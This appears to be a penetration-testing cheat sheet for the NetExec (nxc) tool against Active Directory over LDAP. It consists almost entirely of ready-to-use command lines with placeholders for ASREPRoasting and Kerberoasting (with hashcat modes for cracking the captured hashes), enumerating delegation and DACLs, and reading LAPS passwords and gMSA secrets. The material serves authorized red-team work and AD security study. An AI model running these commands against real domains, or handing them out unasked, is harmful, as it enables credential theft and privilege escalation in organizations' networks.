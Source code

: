 # nxc

% nxc-ldap, netexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/AD/RECON 

## ldap - LDAP connection
edit /etc/hosts
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb -M MAQ
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```


## ldap - read gmsa
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --gmsa
```